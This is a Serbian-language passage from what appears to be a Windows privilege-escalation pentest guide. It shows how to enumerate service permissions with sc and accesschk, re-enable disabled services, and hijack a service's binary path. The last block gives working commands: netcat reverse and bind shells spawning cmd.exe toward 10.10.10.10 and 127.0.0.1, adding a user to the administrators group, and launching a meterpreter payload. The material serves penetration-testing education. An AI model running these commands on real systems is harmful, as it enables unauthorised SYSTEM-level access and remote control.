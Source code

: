 ### Dozvole

Možete koristiti **sc** da biste dobili informacije o usluzi

```bash
sc qc <service_name>
```

Preporučljivo je imati binarni **accesschk** iz _Sysinternals_-a kako biste proverili potrebni nivo privilegija za svaku uslugu.

```bash
accesschk.exe -ucqv <Service_Name> #Check rights for different groups
```

Preporučuje se proveriti da li "Authenticated Users" mogu da menjaju bilo koji servis:

```bash
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv %USERNAME% * /accepteula
accesschk.exe -uwcqv "BUILTIN\Users" * /accepteula 2>nul
accesschk.exe -uwcqv "Todos" * /accepteula ::Spanish version
```

[Možete preuzeti accesschk.exe za XP ovde](https://github.com/ankh2054/windows-pentest/raw/master/Privelege/accesschk-2003-xp.exe)

### Omogućavanje servisa

Ako imate ovu grešku (na primer sa SSDPSRV):

_The service cannot be started, either because it is disabled or because it has no enabled devices associated with it._

Možete ga omogućiti korišćenjem

```bash
sc config SSDPSRV start= demand
sc config SSDPSRV obj= ".\LocalSystem" password= ""
```

**Imajte u vidu da usluga upnphost zavisi od SSDPSRV da bi radila (za XP SP1)**

**Još jedan način** za rešavanje ovog problema je pokretanje:

```
sc.exe config usosvc start= auto
```

### **Izmena putanje binarnog fajla servisa**

U scenariju gde grupa "Authenticated users" poseduje **SERVICE\_ALL\_ACCESS** na servisu, moguća je izmena izvršnog binarnog fajla servisa. Za izmenu i izvršavanje **sc**:

```bash
sc config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config <Service_Name> binpath= "net localgroup administrators username /add"
sc config <Service_Name> binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"

sc config SSDPSRV binpath= "C:\Documents and Settings\PEPE\meter443.exe"
```
